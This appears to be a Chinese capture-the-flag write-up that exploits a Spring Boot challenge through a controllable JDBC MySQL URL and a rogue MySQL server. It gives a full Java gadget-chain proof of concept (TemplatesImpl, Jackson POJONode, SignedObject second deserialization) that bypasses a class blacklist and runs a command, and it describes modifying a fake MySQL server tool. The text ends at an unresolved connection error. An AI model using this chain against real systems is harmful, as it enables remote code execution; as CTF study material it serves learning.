# 记一次jdbc二开恶意mysql工具打SignObject二次反序列化jaskson链的经历-先知社区

> **来源**: https://xz.aliyun.com/news/16503  
> **文章ID**: 16503

---

# 一、环境

下载附件，ok啊有dockerfile，也是非常美滋滋

在windows主机上搭建的docker

在dockerfile的文件目录下运行

```
docker build -t cschallenge:latest .
```



发生了报错，最后找到解决办法就是先pull拉取镜像，再重新运行

```
docker pull openjdk:8-jdk
```

然后再运行一遍

```
docker build -t cschallenge:latest .
```



现在我们这个镜像已经成功构建，但是还没有构建成功



下面开始构建容器，因为他dockerfile文件已经帮我们把服务启动了，我们只需要把服务的端口8080转发到主机就行

构建容器并转发端口

```
docker run -d --name cschallenge-container -p 64412:8080 cschallenge:latest
```

访问<http://localhost:64412/，成功>



# 二、审计

要先访问/RunCSByMySelf

```
{
  "type": "&123",
  "data": {
    "ip": "127.0.0.1",
    "port": "50050",
    "username": "8889123",
    "password": "123456",
    "ListenerName": "test",
    "ScriptContent": "$data = \"{'ip':'ip','port':'3306','dbname':'test?maxAllowedPacket=655360&allowUrlInLocalInfile=true&detectCustomCollations=true&autoDeserialize=true'}\";$handle = openf(\">/tmp/config.json\");writeb($handle,$data);closef($handle);"
  }
}
```

路由才可以进行写入



成功写入



这里写入config.json网上已经有文章介绍了，就不多说，具体可以参考

```
https://xz.aliyun.com/t/16536
```

# 三、正题

怎么审计这道java题呢？我们先看源码

```
csChanglle
    │  Dockerfile
    │
    └─src
        │  config.json
        │  index.py
        │  MyFirstCTF.jar
        │  start.sh
        │
        ├─CS
        │  │  agscript
        │  │  c2lint
        │  │  cobaltstrike
        │  │  cobaltstrike 2.sh
        │  │  cobaltstrike-client.jar
        │  │  cobaltstrike.auth
        │  │  cobaltstrike.bat
        │  │  cobaltstrike.jar
        │  │  cobaltstrike.sh
        │  │  cobaltstrike.store
        │  │  CSAgent.jar
        │  │  CSAgent.properties
        │  │  peclone
        │  │  releasenotes.txt
        │  │  start.sh
        │  │  teamserver
        │  │  TeamServer.prop
        │  │  teamserver.sh
        │  │  TeamServerImage
        │  │  uHook.jar
        │  │  watermark.py
        │  │
        │  ├─plugin
        │  ├─resources
        │  │      bdetails.txt
        │  │      bhelp.txt
        │  │      ssh_details.txt
        │  │      ssh_help.txt
        │  │      translation.txt
        │  │
        │  ├─scripts
        │  │      default.cna
        │  │
        │  └─third-party
        │          README.winvnc.txt
        │
        └─script
                sleepy.py
                striker.py
                __init__.py
```

可以看到有一个src里面有个MyFirstCTF.jar

反编译jar包



红色框框为我们要审计源码的部分

先看入口webApplication文件

```
[……]
@SpringBootApplication(scanBasePackages = {"org.example.ez_web"})
public class ez_webApplication {
  public static void main(String[] args) throws Exception {
    new CheckClass();
    SpringApplication.run(ez_webApplication.class, args);
  }
}
```

运行了一个创建了一个CheckClass类，看看方法

```
[……]
public class CheckClass {
  public CheckClass() throws Exception {
    ClassPool pool = ClassPool.getDefault();
    CtClass ctClass0 = pool.get("com.mysql.jdbc.ResultSetImpl");
    CtMethod getObject = ctClass0.getDeclaredMethod("getBytes");
    ctClass0.removeMethod(getObject);
    String content = "public byte[] getBytes(int columnIndex) throws java.lang.Exception {\n    byte[] data = this.getBytes(columnIndex, false);\n    java.io.ByteArrayInputStream bytesIn = new java.io.ByteArrayInputStream(data);\n    java.io.ObjectInputStream objIn = new org.example.ez_web.utils.NewObjectInputStream(bytesIn);\n    objIn.readObject();\n    return data;\n}";
    CtMethod newMethod = CtNewMethod.make(content, ctClass0);
    ctClass0.addMethod(newMethod);
    ctClass0.toClass();
  }
}
```

这里就是先把com.mysql.jdbc.ResultSetImpl类里面的一个叫getBytes的方法给移除了，然后自己重新写了一个getBytes方法

加到这个ResultSetImpl类里面去

同时在这个新的getBytes调用了一个NewObjectInputStream，然后就走到了objIn.readObject()  
就是反序列化了，

我们看看NewObjectInputStream干了什么

```
[……]
public class NewObjectInputStream extends ObjectInputStream {
  private static final Set<String> BLACKLISTED_CLASSES = new HashSet<>();

  static {
    BLACKLISTED_CLASSES.add("java.lang.Runtime");
    BLACKLISTED_CLASSES.add("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
  }

  public NewObjectInputStream(InputStream inputStream) throws IOException {
    super(inputStream);
  }

  protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
    if (BLACKLISTED_CLASSES.contains(desc.getName()))
      throw new SecurityException("Wrong Class Named:" + desc.getName()); 
    return super.resolveClass(desc);
  }
}
```

添加了黑名单，同时重写了resolveClass

而这题是要打jdbc的，所以我们再看看DatabaseConnect类

```
[……]
public class DatabaseConnect {
  private String url;
  private String ip;
  private String port;
  private String dbname;
  private Connection connection;
  public DatabaseConnect() throws Exception {
    Path filePath = Paths.get("/tmp/config.json", new String[0]);
    String json = Files.lines(filePath).collect(Collectors.joining(System.lineSeparator()));
    this.ip = (String)JsonPath.read(json, "$.ip", new com.jayway.jsonpath.Predicate[0]);
    this.port = (String)JsonPath.read(json, "$.port", new com.jayway.jsonpath.Predicate[0]);
    this.dbname = (String)JsonPath.read(json, "$.dbname", new com.jayway.jsonpath.Predicate[0]);
    this.url = "jdbc:mysql://" + this.ip + ":" + this.port + "/" + this.dbname;
  }
  public Connection connect() throws SQLException {
    if (this.connection == null || this.connection.isClosed())
      try {
        Properties properties = new Properties();
        properties.setProperty("allowLoadLocalInfile", "false");
        properties.setProperty("allowUrlInLocalInfile", "false");
        properties.setProperty("allowLoadLocalInfileInPath", "");
        properties.setProperty("user", "root");
        properties.setProperty("password", "root");
        Class.forName("com.mysql.jdbc.Driver");
        this.connection = DriverManager.getConnection(this.url, properties);
      } catch (ClassNotFoundException e) {
        throw new SQLException("MySQL , e);
      }  
    return this.connection;
  }
}
```

这个类开始的时候先加载了this.url，就是从我们写入的/tmp/config.json的内容，然后字符串一个个进行连接，this.dbname可控那么this.url可控

再看看整个jar包的依赖



黑名单禁用的方法



那么我们的思路其实就很明确了

jdbc触发getBytes(重写后新的方法)，然后就会调用NewObjectInputStream类，我们此时就需要绕过黑名单，绕过成功之后就能够到达readobject方法

触发反序列化



那么根据依赖，最后的链子就是

```
ResultSetImpl::getBytes => NewObjectInputStream::static绕过成功 => NewObjectInputStream::readobject => SignObject链二次反序列化链子
```

java链子的完整poc

```
package org.example.cc1;
import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xpath.internal.objects.XString;
import javassist.*;
import org.springframework.aop.target.HotSwappableTargetSource;
import org.example.ez_web.utils.Serializer;
import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.security.*;
import java.util.Base64;
import java.util.HashMap;

public class SignObject {
    public static void main(String[] args) throws Exception {
        try {
            ClassPool pool = ClassPool.getDefault();
            CtClass jsonNode = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
            CtMethod writeReplace = jsonNode.getDeclaredMethod("writeReplace");
            jsonNode.removeMethod(writeReplace);
            ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
            jsonNode.toClass(classLoader, (ProtectionDomain)null);
        } catch (Exception var11) {
            System.out.println("expc!!!!");
        }

        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"calc\");");
        clazz.addConstructor(constructor);
        byte[][] bytes = new byte[][]{clazz.toBytecode()};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", bytes);
        setValue(templates, "_name", "test");
        setValue(templates, "_tfactory", null);

        POJONode pojo = new POJONode(templates);
        BadAttributeValueExpException bd = new BadAttributeValueExpException(null);
        setValue(bd, "val", pojo);
        KeyPairGenerator keyPairGenerator = KeyPairGenerator.getInstance("DSA");
        keyPairGenerator.initialize(1024);
        KeyPair keyPair = keyPairGenerator.genKeyPair();
        PrivateKey privateKey = keyPair.getPrivate();
        Signature signingEngine = Signature.getInstance("DSA");
        SignedObject signedObject = new SignedObject(bd, privateKey, signingEngine);


        POJONode jsonNodes = new POJONode(1);
        setValue(jsonNodes,"_value",signedObject);
        BadAttributeValueExpException exp2 = new BadAttributeValueExpException(null);
        Field val2 = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val2.setAccessible(true);
        val2.set(exp2,jsonNodes);
        System.out.println(serial(exp2));
    }

    public static String serial(Object o) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(o);
        oos.close();
        return Base64.getEncoder().encodeToString(baos.toByteArray());
    }

    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void deserial(String data) throws Exception {
        byte[] base64decodedBytes = Base64.getDecoder().decode(data);
        ByteArrayInputStream bais = new ByteArrayInputStream(base64decodedBytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }
}

```

解析这条链子

## 1、重写writeReplace

```
try {
            ClassPool pool = ClassPool.getDefault();
            CtClass jsonNode = pool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
            CtMethod writeReplace = jsonNode.getDeclaredMethod("writeReplace");
            jsonNode.removeMethod(writeReplace);
            ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
            jsonNode.toClass(classLoader, (ProtectionDomain)null);
        } catch (Exception var11) {
            System.out.println("expc!!!!");
        }
```

原因



## 2、TemplatesImpl链

```
ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        constructor.setBody("Runtime.getRuntime().exec(\"calc\");");
        clazz.addConstructor(constructor);
        byte[][] bytes = new byte[][]{clazz.toBytecode()};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", bytes);
        setValue(templates, "_name", "test");
        setValue(templates, "_tfactory", null);

        POJONode pojo = new POJONode(templates);
        BadAttributeValueExpException bd = new BadAttributeValueExpException(null);
        setValue(bd, "val", pojo);
```

原因

```
1、TemplatesImpl可以创建一个自定义对象，写入命令执行等恶意代码
2、POJONode触发了TemplatesImpl.getOutputProperties
```

## 3、signobject链子

```
KeyPairGenerator keyPairGenerator = KeyPairGenerator.getInstance("DSA");
        keyPairGenerator.initialize(1024);
        KeyPair keyPair = keyPairGenerator.genKeyPair();
        PrivateKey privateKey = keyPair.getPrivate();
        Signature signingEngine = Signature.getInstance("DSA");
        SignedObject signedObject = new SignedObject(bd, privateKey, signingEngine);

        POJONode jsonNodes = new POJONode(1);
        setValue(jsonNodes,"_value",signedObject);
```

原因

```
SignedObject.getObject之中 这里还存在一个readObject()方法 可以将我们传进来的在进行一次反序列化从而达到绕过的目的
```



# 四、POC验证

## 坑点一、恶意mysql识别payload会多加一个空格

当JDBC连接到数据库时，驱动会自动执行SHOW SESSION STATUS和SHOW COLLATION查询，并对查询结果进行反序列化处理,如果我们可以控制jdbc客户端的url连接，去连接我们自己的一个恶意mysql服务(这个恶意服务只需要能回复jdbc发来的数据包即可)，当jdbc驱动自动执行一些查询(如show session status或show collation)这个服务会给jdbc发送序列化后的payload，然后jdbc本地进行反序列化处理后触发RCE


但是由于我生成的base64加密的恶意字节码是直接CTRL+c和v复制粘贴到文件里面的，而且我在vim的时候也把空格给去掉了，但是依旧会恶意的mysql依旧会帮我多读一个回车，导致payload根本不生效，就像上图一样卡住

然后我就调试

先看到恶意mysql，他是利用String s = new String(Files.readAllBytes(Paths.get(path)));来读取字节码的



然后我粘贴到本地调试

要求读的文件内容



复制字节码，粘贴到文件里面已经没有\n了，开始读取



发现还是会生成换行

### 解决：

```
path=""//这里是填把base64字节码复制然后粘贴到文件里面的文件路径
        String s = new String(Files.readAllBytes(Paths.get(path)),"UTF-8");
        byte[] decode1 = Base64.getDecoder().decode(s);
        String s1 = new String(decode1,"UTF-8");
        FileOutputStream fos2 = new FileOutputStream(path+"_raw",false);
        fos2.write(Files.readAllBytes(Paths.get(path)));
        fos2.close();
```



成功了

## 坑点二、user那么被限制成root打不了自定义

我翻了网上很多的文章，看到用jdbc的user都要yso开头或者deser开头等

或者就是用ysoserial工具来生成内置的字节码而不是自定义的字节码，

这里一开始还没注意的导致卡了很久



### 解决：

我想着这不得二开一个工具，那不得又增加麻烦，后面发现我按照fake-mysql-gui-0.0.4.jar源码，然后把custom改成了root


就是改动了这个项目mysql-fake-server-0.0.4\fake-mysql-proto\src\main\java\me\n1ar4\fake\proto\GadgetResolver.java

里面的识别字符而已



本地成功打通

## 坑点三、Could not create connection to database server（未解决）

当我信心满满的准备打环境的时候，发现一直打不通，payload是发出去的，

